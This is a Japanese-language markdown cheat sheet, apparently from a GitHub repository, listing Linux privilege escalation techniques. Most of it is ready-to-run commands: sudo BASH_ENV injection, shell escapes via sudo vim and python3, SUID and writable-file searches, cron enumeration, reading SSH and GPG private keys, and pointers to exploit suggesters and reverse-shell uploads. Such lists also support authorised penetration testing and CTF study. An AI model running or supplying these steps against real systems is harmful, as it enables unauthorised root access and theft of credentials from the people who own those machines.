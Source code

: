 # 🛡️ Linux 権限昇格手順まとめ
## 1.Sudo 権限を利用した昇格
### a.実行可能な sudo コマンドを確認

### b.sudo 環境変数汚染（BASH_ENV）
```
echo 'bash -p' > /tmp/exp.sh
```
```
chmod +x /tmp/exp.sh
```
```
sudo BASH_ENV=/tmp/exp.sh /usr/bin/systeminfo
```
### c.環境変数が継承されない場合
```
sudo -s
```
または
```
sudo -i
```
### d.sudo で実行できるエディタやインタプリタの利用
```
sudo /usr/bin/vim -c ':!/bin/sh'
```
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```
## 2.SUID ビット付きファイルの利用
```
find / -perm -4000 -type f 2>/dev/null
```
例（bashにSUIDがある場合）:
```
/tmp/bash -p
whoami
```
## 3.書き込み可能なファイルやディレクトリの調査
```
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null
```

## 4.Cron ジョブの調査
```
cat /etc/crontab
```
```
ls -la /etc/cron.*
```
```
systemctl list-timers --all
```
## 5.環境変数を悪用した昇格
PATH の改変

LD_PRELOAD や LD_LIBRARY_PATH の利用

特に root で実行されるスクリプトで外部コマンドを呼ぶ場合に有効。

## 6.パスワードや秘密鍵の発見
```
cat ~/.gnupg/*
```
```
cat ~/.ssh/id_rsa
```
## 7.ローカル脆弱性の利用

カーネルの既知の脆弱性を使う（例: Dirty COW、sudoバグなど）

以下のツールを使うと便利:
```
searchsploit

linux-exploit-suggester

linpeas.sh
```
## 8.Webシェルやファイルアップロードを利用した昇格

PHP/Pythonのリバースシェルをアップロード

TTY付きシェルで安定した操作を確保

## 9.その他Tips

### Capability付きファイルの確認
```
getcap -r / 2>/dev/null
```
cap_setuid などがついていれば昇格に使える可能性あり。

### TTYを使ったシェルの安定化（Python）
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

```
